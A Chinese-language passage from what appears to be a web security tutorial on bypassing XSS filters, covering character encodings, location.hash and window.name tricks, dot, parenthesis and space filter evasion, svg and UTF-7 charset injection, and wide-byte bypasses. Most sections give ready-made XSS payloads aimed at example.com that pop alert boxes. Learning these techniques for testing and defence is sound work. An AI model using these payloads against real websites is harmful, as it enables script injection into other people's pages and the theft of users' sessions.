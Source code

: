 2. 编码解码
- HTML进制编码：十进制（&#97;）、十六进制（$#x61;）
- CSS进制编码：兼容HTML中的进制表现形式，十进制、十六进制（\\61）
- Javascript进制编码：八进制（\\141）、十六进制（\\x61）、Unicode编码（\\u61）、ASCII（String.fromCharCode(97)）
- URL编码：%61
- JSFuck编码：只用\[\]()!+六个字符来编写Javascript程序，某些场景下有奇效
**编码工具[XSSEE](https://evilcos.me/lab/xssee/)中包含大量的编码方式**
3. location.\*、window.name
可以将XSS放置在不被浏览器提交至服务端的部分
location.\*构造如下
`http://example.com/xss.php?input=<input onfocus=outerHTML=decodeURI(location.hash)>#<img src=x onerror=alert(/xss/)>`
window.name构造如下
`<iframe src="http://example.com/xss.php?input=%3Cinput%20onfocus=location=window.name%3E" name="javascript:alert(/xss/)"></iframe>`
利用location对象结合字符串编码可以绕过很多基于关键字的过滤
也有一部分关键字过滤是针对敏感符号的过滤、如括号、空格、小数点等
4. 过滤“.”
JS中使用with关键字设置变量的作用域可以绕过对点号的过滤
`with(document)alert(cookie);`
5. 过滤“()”
JS中可以通过绑定错误处理函数，使用throw关键字传递参数绕过对括号的过滤
`window.onerror=alert; throw 1;`
6. 过滤空格
在标签属性间可以使用换行符0x09、0x10、0x12、0x13、0x0a等字符代替空格绕过过滤
**标签名称和第一个属性间也可以用“/”代替空格**
7. svg标签
svg内部的标签和语句遵循的规则直接继承自xml非html，区别于svg内部的script标签中可以允许存在一部分进制或编码后的字符（比如实体编码）
`http://example.com/xss.php?input=1"><svg><script>alert%26%23x28;1%26%23x29</script></svg>`
#### 6.7.4 字符集编码绕过
1. 古老的UTF-7和US-ASCII
如果输出点在tittle标签之内，meta标签之前，且字符集是由meta标签所指定的，那么仍然可以通过如下方式注入meta标签指定字符集来利用XSS漏洞
基于US-ASCII的也类似
```html
<html>
	<head>
		<title>{{your input}}</title>
		<meta http-equiv="content-type" content="text/html;charset="UTF-8">
	</head>
</html>
<!--
在title中注入
</title><meta charset="utf-7">+ADw-script+AD4-alert(/xss/)+ADw-/script+AD4-:
-->
```
2. 宽字节
通过str_replace和addslashes对输入进行过滤可以使用宽字节进行绕过
`http://example.com/xss.php?input=%d5%22;alert(1);//`
3. 一些特殊字符
特定的byte最后会变成特别的字符
特定的byte会破坏紧随其后的文字
特定的byte会被忽略
可以绕过浏览器的XSS Auditor、制造基于字符编码的XSS漏洞等方面
~~[完整测试结果](http://10.cm/encodings/)~~
#### 6.7.5 长度限制
- window.name
- location.\*
都可以通过将代码放置在别处以减小输入代码量
```html
<iframe src="http://example.com/xss.php?input=%3Cinput%20onfocus=eval(window.name)%3E" name="alert(/xss/)"></iframe>
```
- 第三方库工厂函数
jQuery等第三方JS库提供相应的工厂函数，jQ中的\$()会自动构造标签并执行其中代码
